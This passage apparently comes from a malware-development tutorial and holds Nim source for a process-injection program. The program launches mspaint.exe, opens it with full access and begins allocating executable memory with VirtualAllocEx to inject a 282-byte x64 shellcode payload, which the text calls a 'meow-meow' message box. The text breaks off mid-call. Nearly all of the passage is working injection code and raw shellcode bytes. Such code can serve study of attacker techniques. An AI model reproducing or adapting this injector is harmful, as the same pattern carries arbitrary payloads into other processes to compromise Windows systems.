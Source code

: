```nim
0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
]
```

So the final full source code is look like this `hack.nim`:    

```nim
import osproc
import winim

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID

let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

# messagebox meow-meow payload
var payload: array[282, byte] = [
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
]

when isMainModule:
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](payload.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
```